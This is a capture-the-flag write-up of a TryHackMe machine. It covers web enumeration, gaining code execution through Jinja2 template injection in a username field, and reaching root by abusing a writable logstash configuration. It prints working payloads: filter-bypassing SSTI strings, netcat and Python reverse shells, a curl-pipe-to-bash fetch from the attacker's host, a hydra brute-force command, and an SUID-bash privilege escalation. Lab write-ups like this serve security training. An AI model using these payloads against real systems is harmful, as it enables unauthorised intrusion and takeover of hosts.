This box is rated hard difficulty on THM. It involves us enumerating a python webapp to find an old register API. Then, we grab a shell on the box with SSTI via the username parameter and escalate privileges to root user by abusing logstash configuration files.

_Can you gain access to the temple?_

## Scanning & Enumeration
First things first, I run an Nmap scan against the given IP to find all running services on the host machine; Repeating the same for UDP yields no results.

```
$ sudo nmap -p7,21,22,23,80,61337 -sCV 10.67.158.86 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-07 17:53 CST
Nmap scan report for 10.67.158.86
Host is up (0.044s latency).

PORT      STATE SERVICE VERSION
7/tcp     open  echo
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9e:30:c5:61:92:84:1b:24:64:86:c3:3b:b7:dc:99:34 (RSA)
|   256 78:c3:c3:83:81:73:cb:f1:50:41:f1:9a:d7:bf:3e:d1 (ECDSA)
|_  256 ec:ce:b8:f9:57:53:56:63:e9:61:90:12:15:e5:78:4a (ED25519)
23/tcp    open  telnet  Linux telnetd
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
61337/tcp open  http    Werkzeug httpd 2.0.1 (Python 3.6.9)
|_http-server-header: Werkzeug/2.0.1 Python/3.6.9
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://10.67.158.86:61337/login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.11 seconds
```

There are six ports open:
- Echo on port 7
- FTP on port 21
- SSH on port 22
- Telnet on port 23
- An Apache web server on port 80
- A Python (Werkzeug) web server on port 61337

I'll enumerate going down the list just to make sure I'm not going to miss any important info even though I'm positive the high port web server is the intended target. 

The echo service is only used for testing network connectivity, but is usually disabled as ICMP works just as well if not better, making it obsolete. We can use this to perform a DDoS attack from multiple attacker-owned systems however that is not our goal. I've also seen people use this to exfil data from compromised machines to echo the output from files in order to bypass firewalls, so I'll keep that in mind for later.

There is actually a [CVE](https://nvd.nist.gov/vuln/detail/CVE-1999-0635) stating that this service should be deprecated due to security reasons. 



Moving on to FTP, it seems like anonymous logins have been disabled meaning we can't really do anything here without credentials to sign in or a username to brute force. Same goes for SSH, and both of these versions gathered from Nmap's default scripts are not vulnerable to anything too crazy.



Telnet can be used to connect to ports similar to tools like Netcat. This could be turned on for things like troubleshooting or interacting with legacy hardware, but is kind of rare to see now as SSH is the more favored option for its security. Once again, we'll need creds to authenticate here.



Checking out the landing page on port 80 shows the boilerplate Apache template for all new servers. There's nothing on robots.txt so I'll just leave a Gobuster scan running in the background to find potential subdirectories.



Lastly, the webpage on port 61337 prompts us to login to a custom application. I try a few default credentials such as `admin:admin` or `admin:password`, but only get a standard Error.



I fire up a few Gobuster scans to find subdirectories/subdomains and start testing the login for bypass vulnerabilities and injection payloads. Supplying most special characters like `#, ', ;, or |` throw an error detecting a hacking attempt.

```
Error: Hacking attempt detected! You have been logged as ATTACKER_IP. (Detected illegal chars in username). 
```

Since our only attack surface is a login panel as of now, I leave hydra running in the background to brute force this page as users admin and root (since we still don't have a username).

```
hydra -L users.txt -P /opt/SecLists/rockyou.txt MACHINE_IP http-post-form "/login:username=^USER^&password=^PASS^:Error"
```

## Account Register API
Looking through the directory bust results shows a lot of places that we can't access until we get a valid login. Most of them seem like APIs for site functionality, but `/application` and `/temporary` threw a 403 Forbidden Error which made me think these are directories we're just not able to view.


I had trouble getting Dirsearch and Gobuster to scan recursively, so I switch to ffuf in order to rescan the site targeting those locations. I'm hoping to find any directories with secrets or APIs to use. I end up finding the /dev subdirectory inside `/temporary` which also returns with 403.

```
$ ffuf -u http://10.67.158.86:61337/temporary/FUZZ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -recursion -recursion-depth 3 -recursion-strategy greedy

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.67.158.86:61337/temporary/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

dev                     [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 52ms]
```

Once again, repeating this process with a few large wordlists gives a very promising result at `/newacc` which replies with a 200 code.

```
$ ffuf -u http://10.67.158.86:61337/temporary/dev/FUZZ -w /opt/SecLists/directory-list-2.3-medium.txt -recursion -recursion-depth 3 -recursion-strategy greedy 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.67.158.86:61337/temporary/dev/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

newacc                  [Status: 200, Size: 1886, Words: 255, Lines: 97, Duration: 51ms]
[INFO] Adding a new job to the queue: http://10.67.158.86:61337/temporary/dev/newacc/FUZZ

[INFO] Starting queued job on target: http://10.67.158.86:61337/temporary/dev/newacc/FUZZ
```

Checking out this page shows a forgotten account register page that the site developers probably used for testing the application. First I'll make a new account to test if this actually works or is just leftover HTML.



It's a success! Logging in with our new account displays a few new tabs to check out which discloses the organization's email structure. This is cool and all but there really aren't any functions to exploit included internally.



I was curious how the app kept track of our logins so I checked the cookies assigned. The first is an `identifier`, which is a SHA224 hash of our username. The second is a Flask cookie that retained the `logged_in` and `username` fields. We won't be able to impersonate anyone unless we find the signing secret so this is out of the question.

_Note: I used the [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) tool to decode that cookie._



Thinking back to the initial directory scan, I saw that there was an `/admin` page, navigating to it still returns a 403 code. I attempted to create a new account with admin as the username to try to overwrite the previous one, but this was unsuccessful.

## Server-Side Template Injection
So excluding any future directory enumeration, now that I almost know the site's entire attack surface, there are only two viable options. The first being a brute force against the admin user as I know it is a valid account, however my hydra command was not successful with rockyou.txt so I'm not too hopeful. 

The second thing I can think of is trying for server-side template injection payloads as our username and hope that it doesn't filter any special characters during the registration process. This could work since the site displays our account name upon login



To do this, I make a new account using a polyglot to test if the application code sanitizes our input. [This article](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti) is a great reference if you're new to exploiting this type of vulnerability.


```
${{<%[%'"}}%\.
```


The polyglot payload will essentially fuzz for different templating engines by forcing an error message which can be used in order to fingerprint what is being utilized. This doesn't end up working because the single quote characters get filtered and throw a hacking detection error.



I retry with a simpler payload for the Jinja2 engine that doesn't have bad characters. If successful, this will resolve to 49 and confirm that we can inject malicious usernames to be dynamically loaded in the HTML. 


```
{{7*7}}
```




## Initial Foothold
Awesome, that works well. Next I'll use a fairly safe payload which will hopefully bypass any filters in place by hex encoding certain blocked characters that WAFs usually detect. [This great article](https://hackmd.io/@Chivato/HyWsJ31dI) goes very in-depth on exploiting Jinja2, including an array of payloads.


```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("id")|attr("read")()}}
```


_Note: The original payload has single quotes wrapped around the parameters to ensure the hex encoding gets interpreted correctly, but that doesn't work in our case. Using double quotes also works here so all's well that ends well._

After logging in, we can see that the id command is executed confirming we have RCE on the system via SSTI. Since this application is on a non-standard port and isn't using something like Apache, the server is being ran by Bill's account. This is nice because once we grab a shell, there's no need to enumerate the system as `www-data` or another service account.


Next step is to replace the id command with a reverse shell pointed towards our attacking machine. Typically I'd go with a Netcat mkfifo one liner, but that will get blocked so we need something much simpler. I tried a simple Netcat command that executes `/bin/bash` via the `-e` flag, which executes commands once a connection is established.


```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("nc 192.168.144.73 -e /bin/bash ")|attr("read")()}}
```


This just prints a blank space where our username should be, but didn't work to reach out to my listener. I thought it was maybe because Bill's account could not use netcat or was blocking outbound connections for the binary.

My next attempt was to host a python reverse shell on my own HTTP server and use cURL to proc it from the server. I made sure to change directories into `/tmp` so we are sure to have write access and pipe the stdout from my file to bash.

**Python3 reverse shell:**


```
export RHOST="MACHINE_IP";export RPORT=PORT;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```


**Payload:**


```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cd /tmp \x26\x26 curl 192.168.144.73/shell.py | bash")|attr("read")()}}
```


All we need to do is setup a Netcat listener and host the python shell with an HTTP server before navigating to the account page to proc it. Now that we have a working shell on the box, I upgrade it using the typical `python3 import pty` method and start internal enumeration to escalate privileges.



## Privilege Escalation
I check the `/home` directory and see two other users on the box named frankie and princess, however their accounts didn't seem to own any files other than `.bashrc` and `.profile`. Going about the usual routes of checking SUID bits set on binaries, backups with loose permissions, and crontabs yielded no results.

Displaying the webapp's code shows MariaDB credentials for `temple_user` on the system which we can use to dump the database. This gives us a hash for the admin user but it doesn't end up cracking.



I notice that Bill is apart of the adm group which allows us to view `/var/log`. I spend some time grepping through the auth and error logs but don't find slip ups containing passwords or anything interesting.

I resort to uploading [LinPEAS](https://github.com/peass-ng/PEASS-ng/releases) to the `/tmp` directory as I couldn't find any glaringly obvious privesc techniques right away. Parsing the output shows that the system is configured to use logstash as their pipeline for ingesting logs. I don't usually see this when enumerating machines for privilege escalation so it piqued my interest.

If you didn't know, logstash is an open-source, server-side data processing pipeline that ingests, transforms, and ships data from their sources to a specified destination. In other words, it acts as a separate centralized logging engine to handles heaps of data from different applications. I'm banking on the fact that those logs will include secrets like credentials that may have been reused for root user on the box.



I take to Google to find out how to exploit this and come across [this Hacktricks article](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/logstash.html#logstash-privilege-escalation). It explains that in order to use this service to escalate privileges, a few conditions need to be met first:
- We either need access to write to a pipeline configuration file (under /etc/logstash/conf.d/) or if the pipeline is set with a wildcard, the ability to write to the target file.
- The capability to restart the logstash service

Checking those two things, I'm unable to write files directly to the `/conf.d/` directory. However, I see that we do indeed have write access to a sample config file inside of it.



We don't have the direct ability to restart the service on our own, but checking the pipeline's YAML file (at `/etc/logstash/pipelines.yml`) for config settings shows that the automatic reload feature is enabled and set to go off every three seconds.



This service will effectively let us schedule commands to be executed by root user whenever we want by altering the `logstash-sample.conf` file. As a test run, I'll use a simple `whoami` command to confirm we're able to do so.

```
input {
  exec {
    command => "whoami"
    interval => 120
  }
}

output {
  file {
    path => "/tmp/output.log"
    codec => rubydebug
  }
}
```

That prints the results to output.log under the `/tmp` directory. Checking to see if it worked shows that the message contains our expected string.



All that's left is to supply a malicious command to escalate privileges. You can do a reverse shell or really anything here, but I clone bash to temp and use the `chmod` binary to give it an SUID bit.

```
input {
  exec {
    command => "cp /bin/bash /tmp/bash; chmod +s /tmp/bash"
    interval => 120
  }
}

output {
  file {
    path => "/tmp/output.log"
    codec => rubydebug
  }
}
```

Finally, I use the binary to spawn a root shell and claim the final flag under the `/root` dir.

